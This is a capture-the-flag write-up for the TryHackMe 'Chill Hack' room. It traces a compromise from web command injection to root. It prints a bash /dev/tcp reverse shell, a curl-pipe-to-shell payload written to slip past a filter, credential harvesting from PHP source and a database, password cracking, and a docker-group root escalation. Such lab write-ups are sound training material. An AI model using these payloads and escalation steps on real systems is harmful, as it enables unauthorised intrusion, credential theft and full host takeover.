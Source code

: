 # 🛡️ Chill Hack – CTF Writeup
![Author](https://img.shields.io/badge/Author-Jull3Hax0r-blue?style=flat-square&logo=github)
[![TryHackMe Room](https://img.shields.io/badge/TryHackMe-Chill%20Hack-success?style=flat-square&logo=tryhackme)](https://tryhackme.com/room/chillhack)
# TryHackMe-ChillHack
WriteUp for CTF "ChillHack" at TryHackMe


---

## 🔍 Initial Enumeration

Using `gobuster`, I discovered the `/secret/` endpoint:

```bash
gobuster dir -u http://<IP>/ -w /usr/share/wordlists/dirb/common.txt -x php,txt,html -t 50
```

The `/secret/` path contains a user input field that executes system commands.

---

## ⚙️ Command Injection → Reverse Shell

After experimenting with filtered injection, I hosted a reverse shell script and used `curl` to execute it from the target.

### `shell.sh`:
```bash
bash -c "bash -i >& /dev/tcp/<IP>/443 0>&1"
```

### Listener & HTTP Server:
```bash
python3 -m http.server 8090
nc -lnvp 443
```

### Payload submitted:
```bash
curl http://<IP>:8090/shell.sh | ba\sh
```

✅ Reverse shell received as `www-data`.

---

## 🧑‍💻 Escalation to `apaar`

Discovered `/home/apaar`

```bash
sudo -l
```

Allowed command:

```bash
sudo -u apaar /home/apaar/.helpline.sh
```

Prompted with:
```
Welcome to helpdesk. Feel free to talk to anyone at any time!
```

Input:
```bash
/bin/sh
/bin/sh
id
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

✅ Escalated to user `apaar`

```bash
cat local.txt
{USER-FLAG: •••••••••••••••••••••••••••••••••••••}
```

---

## 🧬 Web Portal – MySQL Credentials

Found in `/var/www/files/index.php`:

```php
$con = new PDO("mysql:dbname=webportal;host=localhost","root","•••••••••••••••");
```

### Logged into MySQL:
```bash
mysql -u root -p
# password: ••••••••••••••••
```

Extracted users table → cracked two hashes:

- `Aurick`: `••••••••••••`
- `cullapaar`: `••••••••••••••••••`

(No escalation via these accounts.)

---

## 🖼️ Hidden Data in Image File

Found `/var/www/files/hacker.php` with the message:
> **"Look in the dark! You will find your answer"**

Referenced image: `/imges/hacker-with-laptop_23-2147985341.jpg`

Extracted:
```bash
steghide extract -sf hacker-with-laptop_23-2147985341.jpg
```

Got `backup.zip` (password protected)

### Cracked ZIP:
```bash
zip2john backup.zip > hash
john --wordlist=/usr/share/wordlists/rockyou.txt hash
john --show hash
```

✅ Password: `••••••••`

Inside: `source_code.php`

---

## 🔐 Escalation to `anurodh`

Found Base64-encoded credentials in `source_code.php`, decoded to:

- User: `anurodh`
- Password: `••••••••••••••••••••••••••`

### Switched to `anurodh`

Checked groups:

```bash
id
# ... groups=1002(anurodh),999(docker)
```

---

## 🚀 Root via Docker Group

Used GTFOBins Docker technique:

```bash
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

✅ Root shell acquired:

```bash
whoami
# root

cat /root/proof.txt
{ROOT-FLAG: •••••••••••••••••••••••••••••••••••••}
```

---

## ✅ Summary

| Stage             | Result                                  |
|------------------|------------------------------------------|
| Initial Foothold | `www-data` via command injection         |
| User Escalation  | `apaar` via `.helpline.sh`               |
| Info Disclosure  | MySQL creds, user password hashes        |
| Escalation       | `anurodh` via hidden ZIP + base64 creds |
| Final            | `root` via Docker group abuse            |

---

🎯 *Box rooted. See you in `/root`!*
